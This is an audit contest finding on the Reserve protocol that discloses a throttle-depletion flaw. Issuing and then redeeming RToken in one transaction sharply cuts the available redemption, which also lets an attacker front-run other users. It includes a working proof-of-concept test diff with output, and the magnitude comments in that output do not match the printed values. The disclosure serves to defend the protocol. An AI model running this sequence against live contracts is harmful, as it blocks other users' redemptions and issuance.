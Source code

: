 ## Tags

- 2 (Med Risk)
- satisfactory
- selected for report
- sponsor confirmed
- MR-NEW

# [Attacker can temporary deplete available redemption/issuance by running issuance then redemption or vice versa](https://github.com/code-423n4/2023-02-reserve-mitigation-contest-findings/issues/79) 

# Lines of code

https://github.com/reserve-protocol/protocol/blob/610cfca553beea41b9508abbfbf4ee4ce16cbc12/contracts/libraries/Throttle.sol#L66-L75


# Vulnerability details

## Impact
Attacker can deplete available issuance or redemption by first issuing and then redeeming in the same tx or vice versa.
The available redemption/issuance will eventually grow back, but this temporary reduces the available amount.
This can also use to front run other user who tries to redeem/issue in order to fail their tx. 

## Proof of Concept
In the PoC below a user is able to reduce the redemption available by more than 99% (1e20 to 1e14), and that's without spending anything but gas (they end up with the same amount of RToken as before)



```diff
diff --git a/test/RToken.test.ts b/test/RToken.test.ts
index e04f51db..33044b79 100644
--- a/test/RToken.test.ts
+++ b/test/RToken.test.ts
@@ -1293,6 +1293,31 @@ describe(`RTokenP${IMPLEMENTATION} contract`, () => {
           )
         })
 
+        it('PoC', async function () {
+          const rechargePerBlock = config.issuanceThrottle.amtRate.div(BLOCKS_PER_HOUR);
+
+          advanceTime(60*60*5);
+
+          let totalSupply =  await rToken.totalSupply();
+          let redemptionAvailable = await rToken.redemptionAvailable();
+          let issuanceAvailable = await rToken.issuanceAvailable();
+
+          console.log({redemptionAvailable, issuanceAvailable, totalSupply});
+
+          let toIssue = redemptionAvailable.mul(111111n).div(100000n);
+          await rToken.connect(addr1).issue(toIssue);
+          await rToken.connect(addr1).redeem(toIssue, true);
+
+
+
+          redemptionAvailable = await rToken.redemptionAvailable();
+          issuanceAvailable = await rToken.issuanceAvailable();
+          console.log("after", {redemptionAvailable, issuanceAvailable});
+          return;
+
+        });
+        return;
+
         it('Should update issuance throttle correctly on redemption', async function () {
           const rechargePerBlock = config.issuanceThrottle.amtRate.div(BLOCKS_PER_HOUR)
 
@@ -1335,6 +1360,7 @@ describe(`RTokenP${IMPLEMENTATION} contract`, () => {
       })
     })
   })
+  return;
 
   describe('Melt/Mint #fast', () => {
     const issueAmount: BigNumber = bn('100e18')

```

Output:
```
{
  redemptionAvailable: BigNumber { value: "10000000000000000000" }, // 1e20
  issuanceAvailable: BigNumber { value: "1000000000000000000000000" },
  totalSupply: BigNumber { value: "100000000000000000000" }
}
after {
  redemptionAvailable: BigNumber { value: "10000000000000" }, // 1e14
  issuanceAvailable: BigNumber { value: "1000000000000000000000000" }
}
```

## Recommended Mitigation Steps
Mitigating this issue seems a bit tricky.
One way is at the end of `currentlyAvailable()` to return the max of `available` and `throttle.lastAvailable` (up to some limit, in order not to allow to much of it to accumulate).